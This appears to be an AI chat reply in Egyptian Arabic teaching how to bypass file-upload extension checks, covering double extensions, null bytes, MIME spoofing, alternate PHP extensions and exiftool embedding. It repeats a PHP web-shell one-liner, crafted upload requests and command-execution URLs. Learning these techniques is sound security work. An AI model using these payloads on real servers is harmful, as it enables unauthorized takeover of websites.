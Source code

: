 تمام، هشرحلك موضوع "Bypassing File Extension Restrictions" بعمق كـ Pentester، مع تركيز على الجانب العملي والأكواد والأوامر، وهحط الخلاصة بالعامية المصرية بعد كل جزء، وبعدين هعدلك كل السيناريوهات الممكنة للاستغلال.

---

### **1. مفهوم Bypassing File Extension Restrictions بعمق**
المقصود هنا إنك بتحاول تتخطى القيود اللي الموقع بيحطها على امتدادات الملفات اللي بيسمح برفعها (زي `.jpg` أو `.png` بس). كتير من المواقع بتحدد نوع الملفات المسموحة عشان تمنع رفع ملفات خبيثة زي `.php` أو `.exe`، لكن لو الفلاتر أو التحقق ضعيف، تقدر تلف عليه وترفع ملف ينفذ كود برضو.

- **الثغرة بتحصل ازاي؟** لما الموقع بيعتمد على حاجة سطحية (زي فحص الامتداد بس) من غير ما يفحص محتوى الملف أو يمنع تنفيذه.
- **الهدف:** رفع ملف ينفذ كود (زي شيل) رغم إن الموقع بيقول "ممنوع غير الصور" مثلاً.

**مثال بسيط:**
لو موقع بيسمح برفع صور بس (`.jpg`, `.png`)، وإنت عايز ترفع شيل PHP، ممكن تغير شكل الملف أو تخدع النظام عشان يقبله ويشتغله.

**خلاصة بالعامية:**  
يعني الموقع بيقولك "ارفع صور بس"، بس إنت بتلعبله في دماغه وترفع حاجة تانية خبيثة وهو يقبلها ويفتحها كمان.

---

### **2. الجانب العملي: ازاي بنتخطى القيود دي**
هنشرح الطرق الشائعة مع أمثلة عملية:

#### **أ. استخدام Double Extensions**
الموقع ممكن يفحص الامتداد الأخير بس، فتقدر تضيف امتداد مقبول بعد الخبيث.

- **مثال عملي:**
  اعمل ملف شيل PHP كده (`shell.php.jpg`):
  ```
  <?php system($_GET['cmd']); ?>
  ```
  ارفعه على الموقع. لو السيرفر (زي Apache) بيتعامل مع `.php` كسكربت وينفذه رغم الـ `.jpg`، افتح:
  ```
  http://target.com/uploads/shell.php.jpg?cmd=whoami
  ```

- **أمر عملي كـ Pentester:**
  جرب امتدادات زي:
  ```
  shell.php.png
  shell.php.gif
  shell.php.jpeg
  ```

**خلاصة بالعامية:**  
كأنك بتقول للموقع "دي صورة عادي"، بس جواها سكربت بيخليه يشتغل زي ما إنت عايز.

#### **ب. استخدام Null Byte**
الـ Null Byte (`%00`) كان بيستخدم زمان عشان يقطع فحص الامتداد في السيرفر.

- **مثال عملي:**
  لو الموقع بيقبل `.jpg` بس، جرب ترفع ملف اسمه:
  ```
  shell.php%00.jpg
  ```
  في الـ HTTP Request (باستخدام Burp Suite)، عدل الـ Filename:
  ```
  Content-Disposition: form-data; name="file"; filename="shell.php%00.jpg"
  ```
  لو السيرفر قديم (PHP < 5.3.4 مثلاً)، هيقف عند الـ `%00` ويعتبر الملف `shell.php` وينفذه.

- **ملاحظة:** الطريقة دي مش شغالة في السيرفرات الحديثة كتير، لكن لسه بتستاهل التجربة.

**خلاصة بالعامية:**  
زي ما تكتب جملة وتقطعها في النص، فالموقع يشوف نصها الأولاني ويسيب الباقي يعدي.

#### **ج. تغيير Case Sensitivity**
بعض السيرفرات مش بتفرق بين الحروف الكبيرة والصغيرة في الامتداد.

- **مثال عملي:**
  جرب ترفع ملف بامتدادات زي:
  ```
  shell.PHP
  shell.PhP
  shell.pHp
  ```
  لو الموقع بيقبل `.php` بأي شكل، هيتنفذ.

**خلاصة بالعامية:**  
الموقع لو مش مركز في شكل الحروف، تقدر تلعب في الكتابة وتعدي حاجتك.

#### **د. تعديل الـ MIME Type**
الموقع ممكن يعتمد على الـ MIME Type (اللي بيحدد نوع الملف في الـ Request) بدل الامتداد.

- **مثال عملي:**
  اعمل ملف `shell.php`، لكن في Burp Suite غير الـ Request:
  ```
  Content-Type: image/jpeg
  Content-Disposition: form-data; name="file"; filename="shell.php"
  ```
  لو الموقع بيفحص الـ MIME Type بس وما بيشوفش الامتداد، هيقبل الملف وممكن يتنفذ.

- **أمر عملي كـ Pentester:**
  جرب MIME Types مختلفة:
  ```
  image/png
  application/octet-stream
  text/plain
  ```

**خلاصة بالعامية:**  
كأنك بتقول للموقع "دي صورة" في الورقة بتاعتها، بس الحقيقة حاجة تانية خالص.

#### **هـ. استخدام امتدادات بديلة**
بعض السيرفرات بتسمح بامتدادات غير شائعة زي `.php5` أو `.phtml` وبتنفذها كـ PHP.

- **مثال عملي:**
  اعمل ملف `shell.phtml`:
  ```
  <?php system($_GET['cmd']); ?>
  ```
  ارفعه، وجرب:
  ```
  http://target.com/uploads/shell.phtml?cmd=dir
  ```

- **أمر عملي:**
  جرب:
  ```
  shell.php5
  shell.phtml
  shell.inc
  ```

**خلاصة بالعامية:**  
الموقع لو مش عارف كل أنواع الملفات اللي المفروض يقفلهم، ممكن ترفع حاجة غريبة وتعدي.

#### **و. تضمين كود في ملفات مقبولة**
لو الموقع مش بيفحص محتوى الملف، ممكن تخبي كود في صورة أو PDF.

- **مثال عملي:**
  اعمل صورة بكود PHP باستخدام `exiftool`:
  ```
  exiftool -Comment='<?php system($_GET["cmd"]); ?>' image.jpg
  ```
  ارفعها، ولو السيرفر بينفذ الـ Metadata، افتح:
  ```
  http://target.com/uploads/image.jpg?cmd=whoami
  ```

**خلاصة بالعامية:**  
حتى لو الموقع بيقول "صور بس"، ممكن تحط جواها حاجة خبيثة ويشتغل عادي لو مش بيبص كويس.

---

### **3. سيناريوهات الاستغلال الممكنة كـ Pentester**
دلوقتي هعدلك كل الطرق اللي ممكن تستغل بيها الثغرة دي:

1. **Double Extensions:**
   - رفع `shell.php.jpg` أو `shell.php.png` والتحكم في السيرفر.

2. **Null Byte:**
   - `shell.php%00.jpg` لتخطي فحص الامتداد في سيرفرات قديمة.

3. **Case Sensitivity:**
   - `shell.PHP` أو `shell.pHp` لو الموقع مش بيفرق بين الحروف.

4. **MIME Type Manipulation:**
   - تغيير الـ Content-Type لـ `image/jpeg` مع ملف `shell.php`.

5. **Alternative Extensions:**
   - رفع `shell.php5` أو `shell.phtml` لو السيرفر بيدعمهم.

6. **Malicious Content in Allowed Files:**
   - تضمين PHP في صورة (`exiftool`) أو JavaScript في PDF.

7. **Path Traversal مع Upload:**
   - لو الموقع بيسمح بكتابة مسار الملف، جرب:
   ```
   ../../shell.php.jpg
   ```

8. **Server Misconfiguration:**
   - لو السيرفر بينفذ أي ملف بغض النظر عن الامتداد (زي `.txt` مع كود PHP)، استغل ده.

---

### **نصيحة كـ Pentester:**
- استخدم **Burp Suite** عشان تعدل الـ Requests (Filename, Content-Type).
- جرب كل الامتدادات الممكنة وشوف ايه اللي بيعدي.
- لو الملف اترفع بس ما نفذش، جرب تستدعيه بطرق تانية (زي LFI أو Command Injection).
- ابحث عن ردود السيرفر (Errors) عشان تعرف هو بيفحص ازاي.

لو عايز تفاصيل أكتر عن أي سيناريو أو أداة، قوللي!
